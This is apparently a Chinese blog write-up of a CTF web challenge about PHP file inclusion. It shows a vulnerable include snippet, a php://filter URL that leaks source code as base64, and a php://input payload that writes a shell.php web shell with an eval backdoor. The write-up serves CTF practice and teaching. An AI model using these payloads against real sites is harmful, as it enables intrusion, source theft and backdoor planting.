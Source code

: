 

# 南京邮电大学CG-CTF平台Writeup_Gard3nia的博客-CSDN博客_cgctf平台

> 来源：[https://blog.csdn.net/Gar_denia/article/details/86760587](https://blog.csdn.net/Gar_denia/article/details/86760587)

# 前言

萌新刷题，寒假又补充更新了Crypto部分；

# 正文

## Web题解

### 文件包含

**1.直接包含内有运行代码的文件**

```
<?php
  include $_GET['file'];
?> 
```

那么就可以通过抓包修改file值的办法去运行一些本来不该运行的文件也可以通过此方法直接输出一些敏感的配置文件和远程包含shell（需要目标主机开启allow_url_fopen)
**2.通过PHP内置协议直接读取代码**
通过构造以下语句

```
http://xxx.com/index.php?file=php://filter/read=convert.base64-encode/resource=xxx.php 
```

就能获得xxx.php的代码的base64加密结果，通过base64解密后便可获得xxx.php的代码
**3.写入php文件**
使用如下URL

```
http://xxx.com/index.php?file=php://input 
```

并在http头里提交

```
<?fputs(fopen("shell.php","w"),"<?php eval($_post['xxx'];?>")?> 
```

就能在index.php目录下生成shell.php

此题考查顾名思义为文件包含漏洞，点开click me? no;
![打开界面](img/28fba2b3c7a013143c9b1cdaec26a883.png)
![点开以后的URL](img/230222c8b7ce02051cd0ad1ee8f108bd.png)
通过URL里**?file=show.php**大致可以确定为是GET方式提交
构造以下语句：
![构造的URL](img/1b3e50b954cd7d0ecda7624578224d87.png)
得到一大串的base64编码，进行base64解码得到php代码里就有flag